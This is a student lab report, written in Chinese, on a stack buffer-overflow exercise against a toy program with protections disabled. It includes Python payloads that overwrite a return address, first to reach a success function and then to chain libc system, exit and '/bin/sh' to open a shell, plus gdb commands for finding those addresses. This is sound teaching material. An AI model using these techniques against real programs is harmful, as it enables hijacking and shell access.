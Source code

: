 # 栈溢出实验

2018011365 张鹤潇

### 实验环境

WSL2 Ubuntu 20.04

### 关键步骤和源码

控制目标程序的编译选项，关闭 stack canary 和 PIE，关闭 OS 的 ASLR.

对目标程序进行反汇编，可知 `gets` 缓冲区与 `vulnerable` 返回地址相距 0x18 bytes. 只要在这中间填充字符串，覆盖函数返回地址，就能劫持程序控制流。

将返回地址覆盖为 `success` 函数的地址，

```python
success_addr = 0x08048456 
payload = '0' * 0x18 + p32(success_addr) 
```

要使受害程序获取 shell，需要用 libc `system` 函数地址覆盖返回地址，并为 `system` 函数填充 "/bin/sh" 参数，这个字符串也存在于 libc 库中，可以用 gdb 来搜索它的位置。

```shell
# gdb main
p system
p exit
info proc map
find 0xf7dd5000,0xf7fbe000,"/bin/sh"
# 在 libc 中搜索目标
```

最终攻击脚本如下

 ```python
 system_addr = 0xf7e29e10	# vulnerable 返回到 system
 exit_addr = 0xf7e1d060		# system 的返回地址，设置为 exit 函数
 bin_str_addr = 0xf7f6888f	# system 的参数，指向字符串 "/bin/sh"
 payload = '0' * 0x18 + p32(system_addr) + p32(exit_addr) + p32(bin_str_addr)
 ```

### 实验结果

实验第一部分，触发 `success` 函数：

![image-20210519112024734](report_pic/image-20210519112024734.png)

第二部分，调用 `shell`： 

![image-20210519112548812](report_pic/image-20210519112548812.png)

